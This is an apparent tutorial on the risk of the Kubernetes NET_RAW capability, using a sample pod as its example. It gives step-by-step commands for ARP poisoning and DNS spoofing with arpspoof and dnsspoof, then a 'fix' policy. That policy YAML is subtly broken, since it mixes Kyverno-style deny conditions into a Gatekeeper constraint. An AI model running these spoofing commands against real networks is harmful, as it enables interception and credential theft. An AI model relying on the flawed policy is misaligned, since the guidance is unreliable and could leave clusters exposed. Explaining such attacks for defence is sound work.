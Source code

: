 Let's use the provided example Pod definition to illustrate a potential attack using the `NET_RAW` capability. 

### Pod YAML Definition

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: badpod03
spec:
  containers:
  - name: container01
    image: busybox
    securityContext:
      capabilities:
        add:
        - NET_RAW  # Disallowed capability
  - name: container02
    image: busybox
    securityContext:
      capabilities:
        add:
        - SETGID   # Allowed capability
```

### Example Attack: DNS Spoofing

DNS spoofing, also known as DNS cache poisoning, is an attack where false DNS information is introduced into the DNS resolver's cache, causing the resolver to return an incorrect IP address. This can redirect traffic from a legitimate server to a malicious one.

### Steps to Perform a DNS Spoofing Attack

1. **Install Necessary Tools**

   First, install necessary tools like `dsniff` in the container:

   ```sh
   kubectl exec -it badpod03 -c container01 -- sh
   apk update && apk add dsniff
   ```

2. **Set Up a Fake DNS Response**

   Using `arpspoof` and `dnsspoof` from the `dsniff` package, the attacker can perform a DNS spoofing attack. Here is how:

   **a. Run `arpspoof` to Redirect Traffic**

   ```sh
   arpspoof -i eth0 -t 192.168.1.10 192.168.1.1
   arpspoof -i eth0 -t 192.168.1.1 192.168.1.10
   ```

   This poisons the ARP cache of both the victim (`192.168.1.10`) and the gateway (`192.168.1.1`), making the attacker the man-in-the-middle.

   **b. Run `dnsspoof` to Respond with Fake DNS Records**

   Create a file `hosts.txt` with fake DNS records:

   ```sh
   echo "192.168.1.50 example.com" > hosts.txt
   ```

   Run `dnsspoof`:

   ```sh
   dnsspoof -i eth0 -f hosts.txt
   ```

   This will respond to DNS queries for `example.com` with the IP address `192.168.1.50` (the attacker's IP or a malicious server's IP).

### Impact of DNS Spoofing

- **Traffic Redirection**: Users trying to visit `example.com` will be redirected to a malicious server controlled by the attacker.
- **Credential Theft**: If the attacker sets up a fake website that mimics the legitimate one, they can capture usernames, passwords, and other sensitive information.
- **Malware Distribution**: The attacker can serve malware from the fake website, compromising the victim's machine.

### Why `NET_RAW` is Disallowed

The `NET_RAW` capability allows the container to create raw sockets, which are essential for packet crafting and network sniffing tools like `arpspoof` and `dnsspoof`. By disallowing `NET_RAW`, Kubernetes policies prevent containers from performing these types of attacks.

### Preventing the Attack

The security policy should disallow `NET_RAW` to mitigate such risks. Here’s how you can enforce this:

```yaml
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sPSPAllowedCapabilities
metadata:
  name: disallow-capabilities
spec:
  match:
    kinds:
      - apiGroups: [""]
        kinds: ["Pod"]
  parameters:
    allowedCapabilities:
      - AUDIT_WRITE
      - CHOWN
      - DAC_OVERRIDE
      - FOWNER
      - FSETID
      - KILL
      - MKNOD
      - NET_BIND_SERVICE
      - SETFCAP
      - SETGID
      - SETPCAP
      - SETUID
      - SYS_CHROOT
  validation:
    message: >-
      Any capabilities added beyond the allowed list (AUDIT_WRITE, CHOWN, DAC_OVERRIDE, FOWNER,
      FSETID, KILL, MKNOD, NET_BIND_SERVICE, SETFCAP, SETGID, SETPCAP, SETUID, SYS_CHROOT)
      are disallowed.
    deny:
      conditions:
        all:
          - key: "spec.containers[*].securityContext.capabilities.add"
            operator: NotIn
            values:
              - AUDIT_WRITE
              - CHOWN
              - DAC_OVERRIDE
              - FOWNER
              - FSETID
              - KILL
              - MKNOD
              - NET_BIND_SERVICE
              - SETFCAP
              - SETGID
              - SETPCAP
              - SETUID
              - SYS_CHROOT
```

### Expected Error Message

If the policy disallows `NET_RAW`, attempting to create `badpod03` will result in an error:

```
Error from server (Forbidden): error when creating "badpod03.yaml": admission webhook "validation.gatekeeper.sh" denied the request: Any capabilities added beyond the allowed list (AUDIT_WRITE, CHOWN, DAC_OVERRIDE, FOWNER, FSETID, KILL, MKNOD, NET_BIND_SERVICE, SETFCAP, SETGID, SETPCAP, SETUID, SYS_CHROOT) are disallowed.
```

### Summary

By enforcing policies that disallow the `NET_RAW` capability, Kubernetes clusters can effectively prevent containers from executing network attacks such as DNS spoofing, ARP spoofing, and other malicious activities that require raw socket access. This helps maintain the security and integrity of the cluster and its network environment.
